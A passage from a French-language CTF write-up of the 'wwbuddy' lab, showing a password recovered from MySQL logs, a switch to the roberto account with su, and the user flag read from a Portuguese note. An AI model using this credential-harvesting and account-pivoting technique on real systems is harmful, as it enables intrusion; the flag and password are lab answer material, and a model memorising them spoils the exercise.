 On remarque qu'il a des logs mysql.  
On regarde dedans et on trouve le mot de passe de Roberto qui est : yVnocsXsf%X68wf    

**User flag**

```bash
www-data@wwbuddy:/var/log/mysql$ su roberto
su roberto
Password: yVnocsXsf%X68wf      


$ id
id
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
$ cd /home/roberto
cd /home/roberto
$ ls
ls
importante.txt
$ cat importante.txt
cat importante.txt
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.


THM{g4d0_d+_kkkk}

```

On se connecte sur le compte de roberto et dans le répertoire roberto on trouve un fichier importante.txt.  
On le lit et on trouve un message et notre flag.  
La flag est : THM{g4d0_d+_kkkk}    

Le message est en portugais, il dit que Jenny aura 26 ans la semaine prochaine et qu'elle va être embauchée.  

```bash
$ stat importante.txt
stat importante.txt
  File: importante.txt
  Size: 246       	Blocks: 8          IO Block: 4096   regular file
Device: ca02h/51714d	Inode: 402577      Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1001/ roberto)   Gid: ( 1001/ roberto)
Access: 2021-09-07 09:06:27.136000000 +0000
Modify: 2020-07-27 21:25:48.544379536 +0000
Change: 2020-07-27 21:25:48.544379536 +0000
 Birth: -
```

On regarde depuis quand le fichier a été modifié.
Il a été modifié le 27-07-2020.  
